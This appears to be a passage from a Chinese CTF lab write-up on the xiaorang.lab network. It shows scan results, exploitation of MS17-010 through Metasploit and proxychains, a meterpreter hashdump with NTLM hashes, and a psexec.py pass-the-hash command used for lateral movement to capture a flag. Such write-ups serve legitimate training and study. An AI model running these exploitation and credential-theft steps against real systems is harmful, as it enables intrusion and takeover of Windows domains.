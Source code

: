 ```shell
[*] NetBios: 172.22.15.18    XR-CA.xiaorang.lab                  Windows Server 2016 Standard 14393
[*] NetBios: 172.22.15.24    WORKGROUP\XR-WIN08                  Windows Server 2008 R2 Enterprise 7601 Service Pack 1
[*] WebTitle: http://172.22.15.26       code:200 len:39962  title:XIAORANG.LAB
[*] WebTitle: http://172.22.15.24       code:302 len:0      title:None 跳转url: http://172.22.15.24/www
[*] WebTitle: http://172.22.15.18       code:200 len:703    title:IIS Windows Server
[+] http://172.22.15.18 poc-yaml-active-directory-certsrv-detect 
[*] WebTitle: http://172.22.15.24/www/sys/index.php code:200 len:135    title:None
```

整理信息

```shell
172.22.15.13 XR-DC01
172.22.15.18 80 XR-CA ADCS
172.22.15.24 80,3306 XR-WIN08 MS17-010
172.22.15.26 本机
172.22.15.35 XR-0687
```

http://172.22.15.24/

ZDOO, OA 系统, 没啥漏洞

![image-20230819152116389](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308191521415.png)

于是去打 ms17-010

注意 msfconsole + proxychains 要打两次, 第二次才成功 (?)

![image-20230819152433848](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308191524877.png)

hashdump

```shell
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e52d03e9b939997401466a0ec5a9cbc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

psexec 过去拿到 flag02

```shell
proxychains psexec.py administrator@172.22.15.24 -hashes ':0e52d03e9b939997401466a0ec5a9cbc' -codec gbk
```

![image-20230819152729297](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308191527335.png)

## flag03

改 administrator 密码, rdp 过去翻 phpstudy mysql 密码

![image-20230819153154320](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308191531353.png)
